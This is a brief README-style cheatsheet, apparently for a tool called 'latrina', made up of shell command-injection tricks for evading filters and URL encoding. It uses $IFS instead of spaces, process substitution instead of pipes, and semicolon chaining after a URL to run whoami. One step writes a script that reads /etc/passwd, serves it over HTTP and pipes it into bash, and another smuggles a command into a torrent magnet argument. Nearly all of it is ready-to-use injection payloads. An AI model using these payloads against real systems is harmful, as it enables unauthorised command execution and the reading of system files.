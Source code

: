 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
#### setting string variables without quotes    
`variable=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a`  
`echo$IFS$9a`  
#### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
#### starting code execution in unescaped url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`  
`curl -s http://localhost:8080/$0 | bash`
#### torrent magnets
`aria2c magnet:?xt=urn:btih:test&dn=linux.iso&curl$IFS9`
